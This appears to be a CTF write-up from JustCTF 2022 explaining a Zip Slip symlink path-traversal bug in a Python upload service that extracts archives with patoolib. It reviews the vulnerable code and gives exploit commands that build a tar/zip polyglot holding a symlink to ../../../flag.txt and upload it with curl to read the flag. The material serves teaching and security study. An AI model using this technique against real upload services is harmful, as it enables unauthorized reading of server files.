 ```yaml
---
title: "Zip Slip Vulnerability - Justctf 2022"
author: "Trevor saudi"
date: 2022-06-13

subtitle: "An overview of the zip slip vulnerability in a python application"

image: "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/zip.jpg" 

images:
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/1.png"
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/2.png"
 - "/posts/2022-06-13_Zipslip-vulnerability-Justctf2022/images/3.png"


aliases:
    - "/Zip-Slip-Vulnerability-JustCTF2022"

tags:
- python
- Zip Slip




---
```

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/zip.jpg)

_An overview of the zip slip vulnerability in a python application._

## OVERVIEW

Zip Slip is a widespread arbitrary file overwrite vulnerability that typically results in remote code execution. Discovered in June 5th 2018 by the Snyk Research team, it affects thousands of projects.

The vulnerablity affects ecosystems that have no central library offering high level processing of archive files. Several web applications allow users to submit files in compressed format to reduce the size of files being uploaded. Later on, the compressed files get decompressed to retrieve to actual files. Zip Slip aims to target such applications

## ZIP SLIP VULNERABILITY

In a previously concluded CTF - JustCTF 2022, one of the web challenges features a web application vulnerable to the Zip Slip vulnerability. We will look at how the exploit to achieve an arbitrary file read on the server works.


![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/1.png)

### Code review

The challenge consists of a REST API endpoint that receives a zip file via HTTP POST and returns a JSON object containing the contents of every file in the zip.

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/2.png)

We are also provided with the back-end code for the REST API linked [here](https://github.com/trevorsaudi/dockerized-zip-slip). 

This particular block of code is of interest. 

```python

@app.post("/extract", tags=["extract"])
async def extract(file: UploadFile):
    """Extracts the given ZIP and returns a JSON object containing the contents of every file extracted"""
    with TemporaryDirectory(dir=UPLOAD_DIR) as tmpdir:
        file_to_extract = Path(tmpdir) / file.filename
        with open(file_to_extract, "wb") as f:
            while True:
                data = await file.read(2048)
                if not data:
                    break
                f.write(data)
        # make sure the file is a valid zip because Python's `zipfile` doesn't support symlinks (no hacking!)
        if not is_`zipfile`(file_to_extract):
            raise HTTPException(status_code=415, detail=f"The input file must be an ZIP archive.")
        with TemporaryDirectory(dir=tmpdir) as extract_to_dir:
            try:
                extract_archive(str(file_to_extract), outdir=extract_to_dir)
            except PatoolError as e:
                raise HTTPException(status_code=400, detail=f"Error extracting ZIP {file_to_extract.name}: {e!s}")
            return read_files(extract_to_dir)
 ```

`zipfile` and `patoolib` are being used as shown below:

```python
from base64 import b64encode
import os
from pathlib import Path
from tempfile import TemporaryDirectory
from typing import Any, Dict, Optional, Union
from zipfile import is_ zipfile

from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import FileResponse
from patoolib import extract_archive
from patoolib.util import PatoolError
```

According to the research done by Snyk linked [here](https://snyk.io/blog/behind-the-disclosure-the-zip-slip-vulnerability/) `zipfile` is not vulnerable to the zip slip vulnerability as also indicated in the comments.

So how then will we approach the exploit?

It is worth noting that tarfile happens to still be affected. Patool libary being used has a cross format feature allows you to extract any type of archive including the most popular ones such as ZIP, GZIP, TAR and RAR.


The implementation of `zipfile` to check if the upload is a valid zip file can be abused in this case. `zipfile` module checks for magic bytes in the archive to verify if it a valid zip file. So by concatenating a tarfile and a zip file, we can pass the `is_zipfile` check since zip's magic bytes will still be at the end of the archive and hence valid. 


### Exploit

We will abuse a path traversal vulnerability by crafting a symlink file. When uploaded and unzipped using `patoolib`, the symlink will be processed leading to dumping of the flag that we need.

```bash
ln -fs ../../../flag.txt .
touch a
zip a.zip -xi a
tar --owner 0 --group 0 -cvf payload.tar flag.txt a.zip
```

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/3.png)

Curl the server

```bash
 curl -X 'POST' \
  'http://symple-unzipper.web.jctf.pro/extract' \
  -H 'accept: application/json' \
  -H 'Content-Type: multipart/form-data' \
  -F 'file=@payload.tar;type=application/x-tar'

```

![image](/posts/2022-06-13_zipslip-vulnerability-justctf2022/images/4.png)

We get the flag from the server.